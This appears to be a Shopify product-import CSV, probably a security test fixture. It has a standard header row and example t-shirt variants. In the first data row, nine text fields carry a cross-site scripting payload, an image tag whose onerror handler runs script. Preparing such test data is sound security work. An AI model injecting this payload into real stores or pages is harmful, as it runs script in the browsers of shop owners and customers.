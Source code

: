 Handle,Title,Body (HTML),Vendor,Type,Tags,Published,Option1 Name,Option1 Value,Option2 Name,Option2 Value,Option3 Name,Option3 Value,Variant SKU,Variant Grams,Variant Inventory Tracker,Variant Inventory Qty,Variant Inventory Policy,Variant Fulfillment Service,Variant Price,Variant Compare At Price,Variant Requires Shipping,Variant Taxable,Variant Barcode,Image Src,Image Alt Text,Gift Card,Google Shopping / MPN,Google Shopping / Age Group,Google Shopping / Gender,Google Shopping / Google Product Category,SEO Title,SEO Description,Google Shopping / AdWords Grouping,Google Shopping / AdWords Labels,Google Shopping / Condition,Google Shopping / Custom Product,Google Shopping / Custom Label 0,Google Shopping / Custom Label 1,Google Shopping / Custom Label 2,Google Shopping / Custom Label 3,Google Shopping / Custom Label 4,Variant Image,Variant Weight Unit
><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,TRUE,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,,,,,,3629,,1,deny,manual,25,,TRUE,TRUE,,http://cdn.shopify.com/s/images/shopify_shirt.png?e6948ca4d9028f9e734b8202cc472e3b89aae0f3,A black t-shirt with the shopify logo,FALSE,7X8ABC910,Adult,Unisex,Apparel & Accessories > Clothing,Our awesome T-shirt in 70 characters or less.,A great description of your products in 160 characters or less,T-shirts,"cotton, pre-shrunk",used,FALSE,,,,,,,
example-t-shirt,,,,,,,Title,Small,,,,,example-shirt-s,200,,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
example-t-shirt,,,,,,,Title,Medium,,,,,example-shirt-m,200,shopify,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
